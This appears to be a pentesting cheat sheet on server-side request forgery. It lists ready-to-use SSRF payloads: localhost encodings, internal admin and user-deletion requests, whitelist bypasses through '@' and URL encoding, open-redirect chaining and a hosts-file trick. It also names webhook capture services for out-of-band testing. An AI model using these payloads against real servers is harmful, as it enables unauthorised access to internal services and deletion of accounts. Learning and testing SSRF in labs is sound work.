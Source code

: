 ```yaml
---
title: Server-Side Request Forgery (SSRF)
desc: 
tags: [SSRF, Web, Webhook]
alts: []
render_with_liquid: false
---
```


## Capture Tools

If you want to capture the SSRF affections, there are some online tools available for capturing SSRF.

- **[Webhook.site](https://webhook.site/){:target="_blank"}{:rel="noopener"}**

- **[pingb.in](http://pingb.in/){:target="_blank"}{:rel="noopener"}**

<br />

## Basic Methodology

1. **Localhost**

    ```html
    POST /stock HTTP/1.1
    ...

    stockApi=http://localhost/
    ```

    The followings are alternatives for localhost.

    ```
    stockApi=http://127.0.0.1/
    stockApi=http://2130706433/
    stockApi=http://017700000001/
    stockApi=http://127.1/
    ```

    - **Operation as Administrator**

        ```
        stockApi=http://localhost/admin
        stockApi=http://localhost/admin/delete?username=john

        stockApi=http://127.1/%25%36%31dmin
        ```

2. **Backund URL (192.168.0.X)**

    ```
    stockApi=http://192.168.0.23/admin
    stockApi=http://192.168.0.68:8080/admin/delete?username=michael
    ```

3. **Bypass Whitelisted URL**

    ```
    stockApi=http://localhost@vulnerable.com/
    stockApi=http://localhost%25%32%33@vulnerable.com/
    ```

4. **Open Redirect**

    ```
    stockApi=/post/next?path=http://localhost/admin
    ```

5. **Bypass Hostname**

    1. **Add Target Domain to /etc/hosts in Local Machine**

        ```sh
        <target-ip> sub.vulnerable.com
        ```

        Restart hostnamed

        ```sh
        sudo systemctl restart systemd-hostnamed
        ```

    2. **Access to the Domain You Specified**

        ```
        https://vulnerable.com/?proxy=https://sub.vulnerable.com
        ```



